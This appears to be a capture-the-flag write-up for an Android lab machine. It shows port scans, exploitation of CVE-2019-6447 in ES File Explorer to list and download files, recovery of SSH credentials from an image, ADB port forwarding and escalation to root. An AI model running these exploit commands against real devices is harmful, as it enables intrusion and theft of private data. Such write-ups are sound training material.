

# Explore
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.247 -T5                         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 17:40 BST
Warning: 10.10.10.247 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.247 (10.10.10.247)
Host is up (0.12s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
42135/tcp open     unknown
59777/tcp open     unknown
```
```
└─$ nmap -p2222,38925,42135,59777 -Pn 10.10.10.247 -sC -sV
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 17:32 BST
Nmap scan report for 10.10.10.247 (10.10.10.247)
Host is up (0.12s latency).

PORT      STATE  SERVICE VERSION
2222/tcp  open   ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
42135/tcp open   http    ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open   http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.94%I=7%D=8/6%Time=64CFCB14%P=x86_64-pc-linux-gnu%r(NUL
SF:L,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
## Foothold/User
- `nmap` suggests `Minecraft server`
  - Googling tells it's [ES File Explorer File Manager](https://www.speedguide.net/port.php?port=59777) with `CVE-2019-6447`
  - We have a [github repo](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)

```
└─$ python3 cve-2019-6447.py list                                                                     

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info. Package name parameter is needed
appPull: Pull an app from the device
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

- While going through every command we notice `creds.jpg` file
```
└─$ python3 cve-2019-6447.py --cmd listPics --host 10.10.10.247   
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
- Let's download and open it
```
└─$ python3 cve-2019-6447.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```


- We have creds `kristi:Kr1sT!5h@Rp3xPl0r3!`
  - Let's `ssh`


- If we look for a `user.txt`, we have nothing
  - `find . -name user.txt 2>/dev/null`
  - So I spent sometime looking for a flag, until I found it in `/storage/emulated/0`, where the pictures were stored

## Root
- Enumeration shows that now we have previously filtered port `5555`

```
:/storage/emulated/0 $ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp6       0      0 :::2222                 :::*                    LISTEN      4748/net.xnano.android.sshserver
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 :::42135                :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:35737 :::*                    LISTEN      -
tcp6       0      0 ::ffff:127.0.0.1:41985  :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
udp        0      0 10.10.10.247:13022      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:30449      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:19481      1.0.0.1:53              ESTABLISHED -
udp        0      0 10.10.10.247:7334       1.1.1.1:53              ESTABLISHED -
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -
udp        0      0 0.0.0.0:56977           0.0.0.0:*                           -
udp6       0      0 :::1900                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 :::5353                 :::*                                -
udp6       0      0 ::ffff:10.10.10.2:51524 :::*                                -
udp6       0      0 :::46781                :::*                                -

```
- So let's use port forwarding
```
└─$ ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222
Password authentication
(kristi@10.10.10.247) Password: 
:/ $ 
```
- I installed `adb` to interact with android devices



- Now we can access the device
  - If we check the user, we are still lov-priveleged one
  - Trying `su` gave me `root`


